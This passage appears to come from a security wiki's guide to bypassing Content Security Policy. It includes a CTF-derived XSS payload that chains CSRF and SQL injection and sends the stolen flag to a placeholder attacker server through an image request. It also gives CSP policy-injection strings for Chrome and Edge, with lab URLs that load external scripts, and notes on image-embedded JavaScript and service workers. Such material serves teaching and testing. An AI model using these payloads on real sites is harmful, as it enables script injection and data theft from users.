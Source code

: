 You can bypass this CSP by exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains an SQLi, and extract the flag via an image):

```javascript
<script>
  fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new
  Image().src='http://PLAYER_SERVER/?'+_)
</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows loading images from Twitter. You could **craft** an **special image**, **upload** it to Twitter and abuse the "**unsafe-inline**" to **execute** a JS code (as a regular XSS) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### With Service Workers

Service workers **`importScripts`** function isn't limited by CSP:

{{#ref}}
../xss-cross-site-scripting/abusing-service-workers.md
{{#endref}}

### Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

Because this directive will **overwrite existing script-src directives**.\
You can find an example here: [http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

In Edge is much simpler. If you can add in the CSP just this: **`;_`** **Edge** would **drop** the entire **policy**.\
Example: [http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](<http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;_&y=%3Cscript%3Ealert(1)%3C/script%3E>)
